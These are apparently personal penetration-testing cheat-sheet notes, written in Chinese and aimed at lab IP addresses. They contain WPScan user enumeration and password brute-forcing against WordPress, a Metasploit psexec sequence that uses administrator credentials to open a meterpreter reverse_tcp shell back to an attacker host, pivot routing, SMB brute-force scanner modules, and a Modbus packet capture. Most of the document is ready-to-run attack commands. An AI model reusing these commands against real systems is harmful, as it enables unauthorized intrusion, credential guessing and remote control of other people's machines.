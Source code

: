 wpscan --url http://192.168.0.10/wordpress/ -e u,p

補充

可以用爆破的方式
wpscan --url http://192.168.0.10/wordpress/ -P <字典檔>


---
# 心法
445 smb
3389 rdp
22 ssh
80 dirb


# exploit/windows/smb/psexec
msf > use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 192.168.2.118
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass P@ssw0rd
msf exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(windows/smb/psexec) > set LHOST 192.168.2.145
msf exploit(windows/smb/psexec) > set LPORT 4444
msf exploit(windows/smb/psexec) > exploit

增加路由方法
msf exploit(windows/smb/psexec) > bg
msf exploit(windows/smb/psexec) > route add (ip_subnet) (遮罩) 1

Get-Smbserverconfiguration | Select EnableSMB2Protocol

列舉
auxiliary/scanner/portscan/tcp

好用爆破
auxiliary/scanner/smb/smb

# 抓封包
`tcpdump tcp port 502 -vv -w modbus.cap`
```
mbtcp.trans_id==(number)
```
# md5 dig
linux
`md5sum (filename)`
windows
certutil -hashfile (filename) md5